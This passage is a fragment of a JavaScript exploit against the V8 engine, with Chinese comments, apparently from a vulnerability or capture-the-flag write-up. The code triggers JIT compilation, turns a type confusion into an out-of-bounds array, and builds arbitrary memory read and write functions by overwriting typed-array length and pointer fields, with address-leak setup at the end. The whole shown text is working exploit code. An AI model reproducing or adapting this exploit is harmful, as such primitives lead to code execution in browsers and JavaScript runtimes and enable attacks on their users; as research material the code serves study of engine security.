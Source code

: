 ```
        };                                  // 实现地址泄露
        //%DebugPrint(oob_array);
        //%DebugPrint(uint64_arw);
        //%DebugPrint(obj_leaker);
        //%SystemBreak();
        return Object.prototype;
    }
});
function main(p) {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    f(p);
}
// 将类型混淆转化为越界读写
function confusion_to_oob() {
    console.log("[+] convert confusion to oob......");

    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT

    main(empty);
    main(empty);

    main(p);
    console.log("   oob_array.length: " + hex(oob_array.length));
}
// 获取任意地址读写
function get_arw() {
    console.log("[+] get absolute read/write access......");

    // 相对于oob_array[0]的偏移
    uint64_length_offset = 16;
    uint64_externalptr_offset = 17;
    uint64_baseptr_offset = 18;
    // 用来保存这三个值
    uint64_length = f2i(oob_array[uint64_length_offset]);
    uint64_externalptr_ptr = f2i(oob_array[uint64_externalptr_offset]);
    uint64_baseptr_ptr = f2i(oob_array[uint64_baseptr_offset]);
    compress_head_high32_addr = uint64_externalptr_ptr & 0xffffffff00000000n;
    console.log("   uint64_length_offset: " + hex(uint64_length));
    console.log("   uint64_externalptr_offset: " + hex(uint64_externalptr_ptr));
    console.log("   uint64_baseptr_offset: " + hex(uint64_baseptr_ptr));
    console.log("   compress_head_high32_addr: " + hex(compress_head_high32_addr));
}

// 任意地址写
function arw_write(addr, sc)
{
    oob_array[uint64_length_offset] = i2f(BigInt(sc.length));
    oob_array[uint64_baseptr_offset] = i2f(0n);
    oob_array[uint64_externalptr_offset] = i2f(addr);
    for(let i = 0; i < sc.length; i+=1) {
        uint64_arw[i] = sc[i];
    }
}
// 针对于压缩指针的任意地址读
function compress_arw_read(addr)
{
    oob_array[uint64_baseptr_offset] = i2f(addr-0x1n);
    oob_array[uint64_externalptr_offset] = i2f(compress_head_high32_addr);
    let ret = uint64_arw[0];
    return ret;
}
// 地址泄露
obj_leader_offset = 0x16;
```